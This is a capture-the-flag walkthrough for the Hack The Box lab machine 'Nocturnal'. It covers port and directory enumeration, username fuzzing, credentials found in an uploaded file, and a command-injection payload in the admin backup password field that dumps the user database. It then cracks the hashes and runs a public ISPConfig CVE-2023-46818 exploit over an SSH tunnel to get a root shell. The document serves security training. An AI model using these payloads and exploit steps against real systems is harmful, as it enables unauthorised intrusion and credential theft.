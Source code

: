 ```yaml
---
name: Nocturnal
difficulty: easy
os: linux
platform: htb
date: 2025/07/02
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/f6a56cec6e9826b4ed124fb4155abc66.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We try to connect to the web service but redirects us to `http://nocturnal.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

We do nmap scan with service version detection and script scanning using `-sC` and `-sV` options:
```bash
nmap -p 22,80 -sCV nocturnal.htb -o targeted
```
```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 202688700851eede3aa6204187962517 (RSA)
|   256 4f800533a6d42264e9ed14e312bc96f1 (ECDSA)
|_  256 d9881f68438ed42a52fcf066d4b9ee6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We look for directories and files in the web application using `gobuster`:
```bash
gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nocturnal.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 302) [Size: 0] [--> login.php]
/backups              (Status: 301) [Size: 178] [--> http://nocturnal.htb/backups/]
/index.php            (Status: 200) [Size: 1524]
/uploads              (Status: 403) [Size: 162]
```

## User Exploitation

We can see that its posible to list users via URL:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -mc 200 -H "Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt" -fr "User not found."
```  
``` 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found.
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 97ms]
amanda                  [Status: 200, Size: 3319, Words: 1178, Lines: 129, Duration: 107ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 115ms]
``` 

We can access `http://nocturnal.htb/view.php?username=amanda&file=*.pdf` and see if there are any files uploades by the user. `admin` and `tobias` have not uploaded any files.

User `amanda` has uploaded a file called `privacy.odt`. If we unzip it we can find a file called `content.xml` that contains the following credentials:
```xml
amanda:arHkG7HAI68X8s1J
```

We can use these credentials to login to the web application at `http://nocturnal.htb/login.php` and access the admin panel.

We can see its displaying source code of the web app. We can see password field is vulnerable to RCE.
We try several payloads and we find that the following payload works:
```
password=%09bash%09-c%09"<payload>"%09&backup=
```

We execute the following command to get the contents of the db
```bash
password=%09bash%09-c%09"sqlite3%09../nocturnal_database/nocturnal_database.db%09.dump"&backup=
```
```
VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
```

We use `https://crackstation.net/` to crack the hashes and we find the following credentials:
```
tobias:slowmotionapocalypse
```

We use these credentials to login via SSH:
```bash
ssh tobias@10.10.11.64
```

We find the user flag in the home directory of the user `tobias`:
```bash
cat /home/tobias/user.txt
```
```
user flag value
```

## Root Exploitation

We use `linpeas.sh` to check for privilege escalation vectors
We see there is a web service running in port 8080 which is not open outside the machine. We do a ssh tunnel to access the web service:
```bash
ssh -L 8080:localhost:8080 tobias@10.10.11.64
```

We can access the web service at `http://localhost:8080` and we are greeted with a ISP Config login page.
We can use the credentials we found earlier to login:
```
admin:slowmotionapocalypse
``` 

We can check which version of ISP Config is running by checking the footer of the page. Its version `3.2.10p1`, vulnerable to CVE-2023-46818.

We clone the exploit repository from `https://github.com/ajdumanhug/CVE-2023-46818.git` and run the exploit:
```bash
git clone https://github.com/ajdumanhug/CVE-2023-46818.git
cd CVE-2023-46818
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse 
```

We get a reverse shell as root and we can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Nocturnal machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, user credential cracking, and leveraging a known vulnerability in ISP Config to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine and can be used as a reference for similar challenges in the future.
This writeup is intended for educational purposes only and should not be used for malicious activities.
